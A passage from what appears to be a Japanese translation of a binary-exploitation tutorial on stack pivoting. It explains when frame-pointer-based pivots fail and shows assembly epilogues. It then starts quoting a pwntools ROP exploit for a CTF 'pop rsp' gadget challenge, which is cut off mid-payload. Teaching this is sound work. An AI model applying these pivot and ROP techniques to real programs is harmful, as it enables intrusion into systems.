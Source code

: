## EBP は使われないことがある

[**explained in this post**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1) の説明どおり、バイナリがいくつかの最適化でコンパイルされているか、frame-pointer omission でビルドされていると、**EBP/RBP は ESP/RSP を制御しません**。したがって、EBP/RBP を制御することで動作するエクスプロイトは、プロローグ/エピローグがフレームポインタから復元しないため失敗します。

- 最適化されていない / frame pointer が使用されている:
```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
- 最適化 / フレームポインタ省略:
```bash
push   %ebx         # save callee-saved register
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore
ret                 # return
```
On amd64では`pop rbp ; ret`が`leave ; ret`の代わりに使われることがよくありますが、フレームポインタが完全に省略されている場合は、pivotに使える`rbp`ベースのエピローグが存在しません。

## RSP を制御する他の方法

### `pop rsp` gadget

[**In this page**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) この手法を使った例があります。 そのチャレンジでは、特定の2つの引数で関数を呼び出す必要があり、**`pop rsp` gadget**と**stackからの leak**がありました：
```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
```